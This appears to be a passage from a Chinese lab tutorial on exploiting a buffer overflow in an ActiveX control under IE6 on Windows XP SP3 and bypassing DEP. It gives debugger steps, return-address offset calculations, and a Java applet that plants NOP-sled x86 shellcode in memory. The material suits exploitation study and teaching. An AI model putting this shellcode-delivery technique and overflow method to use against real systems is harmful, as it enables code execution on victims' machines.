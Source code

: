 <b>实验环境：</b>

||推荐使用环境|备注|
|--|--|--|
|操作系统|Windows XP SP3||
|DEP|Optout| |
|浏览器|IE6||


当弹出下面所示对话框时用OllyDbg附加IE的进程，附加好后按一下F9键让程序继续运行。
![对话框](/images/2017-07-12/ie.jpg)

然后转到DEP_NETDLL.dll的内存空间中查找shellcode的具体位置，然后进入该内存空间。

shellcode的起始地址0x242424DF。而我们填充的字符串起始地址0x01EFF534，函数返回地址0x01EFF5A0，所以填充108（0x6C）字节就可以覆盖返回地址。

<font color=#f00>令人意外的是，我们无法包含dll文件，使用了所有可能的办法，都无法在html中使用dll</font>

### 3. 利用java applet

实验支持:
1. 具有溢出漏洞的ActiveX控件
2. 包含shellcode的Java Applet控件
3. 可以触发ActiveX控件中溢出漏洞的POC页面

#### 3.1 ActiveX控件

上一讲已经介绍

#### 3.2 包含shellcode的Java Applet控件

实验代码
<pre><code>
import java.applet.*;
import java.awt.*;
public class Shellcode extends Applet{
    public void init(){
        Runtime.getRuntime().gc();
        StringBuffer buffer = new StringBuffer(255);
        buffer.append("\u9090\u9090\u9090\u9090\u9090\u9090\u9090\u9090" +
                "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91" +
                "\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332" +
                "\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c" +
                "\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505" +
                "\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b" +
                "\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06" +
                "\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c" +
                "\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd" +
                "\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33" +
                "\u6853\u6577\u7473\u6668\u6961\u8b6c\u53c4\u5050" +
                "\uff53\ufc57\uff53\uf857");
    }
}
</code></pre>
